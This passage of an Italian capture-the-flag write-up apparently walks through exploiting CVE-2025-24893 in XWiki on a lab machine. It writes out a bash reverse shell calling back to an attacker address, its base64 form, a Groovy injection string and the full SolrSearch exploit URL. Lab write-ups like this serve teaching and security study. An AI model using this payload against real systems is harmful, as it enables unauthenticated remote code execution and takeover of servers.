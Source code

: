 ![04](./img/04.png)

Funziona!

> CVE-2025-24893 – Unauthenticated Remote Code Execution in XWiki via SolrSearch Macro - OffSec [https://www.offsec.com/blog/cve-2025-24893/](https://www.offsec.com/blog/cve-2025-24893/)

### Crafting the payload

Si costruisce un payload per eseguire una reverse shell.

```text
# Shell command to execute
/bin/bash -i >& /dev/tcp/10.10.16.x/4444 0>&1
```
```text
# Base64 encoding
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLngueC54LzQ0NDQgMD4mMQ==
```
```text
# Groovy code to inject
}}}{{async async=false}}{{groovy}}["/bin/bash","-c","echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLngueC54LzQ0NDQgMD4mMQ==|base64 -d|bash -i"].execute(){{/groovy}}{{/async}}
```
```text
# URL
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}["/bin/bash","-c","echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLngueC54LzQ0NDQgMD4mMQ==|base64 -d|bash -i"].execute(){{/groovy}}{{/async}}
```

### Exploitation
Si avvia un listener sulla porta 4444 e si avvia l'exploit definito nel file **revshell.sh**.

